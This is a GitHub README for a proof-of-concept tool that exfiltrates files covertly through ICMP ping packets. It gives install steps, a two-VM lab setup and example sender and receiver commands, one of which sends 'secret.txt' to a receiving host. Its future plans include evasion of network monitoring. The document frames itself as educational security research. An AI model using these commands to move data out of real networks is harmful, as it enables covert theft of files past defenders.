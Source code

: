 # ICMP-Exfiltration-PoC
Proof-of-concept scripts to demonstrate file exfiltration using ICMP protocol.

---

## 📌 Overview

This repository contains two Python scripts (`sender.py` and `receiver.py`) demonstrating how files can be covertly transmitted using the ICMP protocol, commonly employed for network diagnostics (ping). This PoC is intended solely for educational and research purposes.
To read the entire POC guide, please read my [Medium](https://medium.com/@black18t18/data-exfiltration-via-icmp-protocol-b5c9e8f5cf6f) article and follow me 😉.

---

## 📦 Requirements

Make sure Python 3 is installed along with these dependencies:

```bash
pip install scapy pycryptodome requests
```

Or use the provided `requirements.txt` file:

```bash
pip install -r requirements.txt
```

---

## 🖥 Setup

Use two virtual machines connected via an internal network:

- **Sender VM:** Linux Mint (or similar)
- **Receiver VM:** Kali Linux (or similar)

Configure static IPs (example setup):

- Sender: `192.168.100.10`
- Receiver: `192.168.100.20`

---

## 🚀 Usage

### Receiver

On Kali Linux:

```bash
sudo python3 receiver.py -P <PortTag> -R <Password> -o <OutputFileName> -v
```

Example:

```bash
sudo python3 receiver.py -P 6666 -R "MySecurePass" -o output.txt -v
```

### Sender

On Linux Mint:

```bash
sudo python3 sender.py -L <FileToSend> -P <Password> -D <ReceiverIP> -R <PortTag> -v
```

Example:

```bash
sudo python3 sender.py -L secret.txt -P "MySecurePass" -D 192.168.100.20 -R 6666 -v
```

---

## ⚠️ Ethical Considerations

This PoC is strictly for educational purposes. Unauthorized use on any network or system without explicit permission is illegal and unethical. Always perform these tests within controlled environments.

---

## 📌 Future Improvements

- Payload obfuscation and encoding
- Packet compression
- Integrity checks (checksums, HMAC)
- Multi-file support
- Evasion techniques against network monitoring

Feel free to contribute and suggest improvements!

---

## 🔖 License

This project is licensed under the MIT License. See the [LICENSE](https://github.com/Shinigami81/ICMP-Exfiltration-PoC/blob/main/MIT%20License) file for details.
